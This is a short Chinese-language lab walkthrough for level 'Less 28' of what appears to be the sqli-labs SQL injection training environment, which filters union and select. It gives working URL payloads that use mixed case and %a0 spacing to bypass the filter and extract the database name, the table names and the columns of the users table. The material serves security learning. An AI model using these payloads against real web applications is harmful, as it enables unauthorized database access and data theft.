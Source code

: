 




# Less 28

 这一关是基于错误的，有括号的单引号字符型，过滤了union和select等的注入。

 

 爆库名：`?id=0')UNion%a0SElect%a01,database(),('1')=('1`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less28-unionselect单引号括号过滤.assets/1838411-20200210131401614-455447668.png)

 

 爆表名：`?id=0')UNion%a0SElect%a01,(group_concat(table_name)),3%a0from%a0information_schema.tables%a0where%a0table_schema='security'%a0%26%26%a0('1')=('1`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less28-unionselect单引号括号过滤.assets/1838411-20200210131453092-1826678474.png)

 

 爆列名：`?id=0')UNion%a0SElect%a01,(group_concat(column_name)),3%a0from%a0information_schema.columns%a0where%a0table_schema='security'%a0ANd%a0table_name='users'%a0%26%26%a0('1')=('1`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less28-unionselect单引号括号过滤.assets/1838411-20200210131701559-901783590.png)
